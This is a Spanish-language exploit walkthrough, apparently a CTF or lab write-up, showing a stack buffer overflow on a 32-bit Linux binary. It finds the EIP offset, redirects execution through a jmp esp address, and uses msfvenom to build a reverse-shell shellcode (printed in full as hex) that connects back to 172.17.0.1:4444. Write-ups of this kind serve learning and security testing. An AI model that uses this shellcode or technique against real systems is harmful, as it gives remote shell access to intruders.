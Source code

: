 ![image](https://github.com/user-attachments/assets/b30df4e0-228b-4420-88d6-12b2c37937c4)

aqui observo la direccion del registro `eip` asi que ese valor se lo pasamos al siguiente exploit

```ruby
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x61413761
```

![image](https://github.com/user-attachments/assets/57981214-7747-4751-98ef-d7b9b7f4c98f)

obtenemos el valor `offset` que es de 22 byte, ahora testeo si obtengo el control del registro `eip`

![image](https://github.com/user-attachments/assets/0d4ac577-7af8-4eb5-baa6-0614d7e68c90)


logro entonces tomar el control sobre el registro `eip`, sabiendo esto ahora calculo la direccion de la funcion `jmp_esp` que es la que apunta al comienzo de la pila
para intentar incrustar una `shellcode` y debo intentarlo de esta forma ya que el tamano del buffer es muy pequeno para almacenar una `shellcode`

![image](https://github.com/user-attachments/assets/fcfaa5f5-0d80-401e-bb48-2ab8acd87da2)

aqui obtengo la direccion de memoria de la funcion `jmp_esp` a la cual apuntare en el registro `eip` para redirigir el flujo del programa al comienzo de la pila, ahora
confirmare que lo que envie despues de sobreescribir el `eip` se almacene al comienzo de la pila

![image](https://github.com/user-attachments/assets/8d2d5739-b59f-4f60-88f3-8bf3a7d8d543)

tal como pensaba, lo que envie luego de `eip` se va alojar al comienzo de la pila, ahora creare la `shellcode` que inyectare

```ruby
msfvenom -p linux/x86/shell_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -b '\x00\x0a\x0d' -f hex #generamos la shellcode
```
```bash
bbc08f65e8d9ecd97424f45829c9b11231581283c004039881871d2945b03d1a3a6ca89e35739cf888f44e5da3cabddd8a4dc7b5a0bf3744d1bd37577d4bd6e71b1b48545798e3bb5a1fa1530b0f35cbbb60966955f60b3ff6812d0ff35c2d
```

obtenemos una cadena en hexadecimal la cual vamos a modificar para poder inyectarla al binario, la cadena modificada quedaria asi

```ruby
\xbb\xc0\x8f\x65\xe8\xd9\xec\xd9\x74\x24\xf4\x58\x29\xc9\xb1\x12\x31\x58\x12\x83\xc0\x04\x03\x98\x81\x87\x1d\x29\x45\xb0\x3d\x1a\x3a\x6c\xa8\x9e\x35\x73\x9c\xf8\x88\xf4\x4e\x5d\xa3\xca\xbd\xdd\x8a\x4d\xc7\xb5\xa0\xbf\x37\x44\xd1\xbd\x37\x57\x7d\x4b\xd6\xe7\x1b\x1b\x48\x54\x57\x98\xe3\xbb\x5a\x1f\xa1\x53\x0b\x0f\x35\xcb\xbb\x60\x96\x69\x55\xf6\x0b\x3f\xf6\x81\x2d\x0f\xf3\x5c\x2d
```
ya teniendo todo lo necesario testeo si logro inyectar la `shellcode` y para eso primero me coloco en escucha por el puerto `4444` para luego enviar el payload al binario

![image](https://github.com/user-attachments/assets/ccc2b3a4-02a2-4e99-b43a-ebf71f1bb1ed)

logre inyectar correctamente la `shellcode` y obtener asi una `revershell`

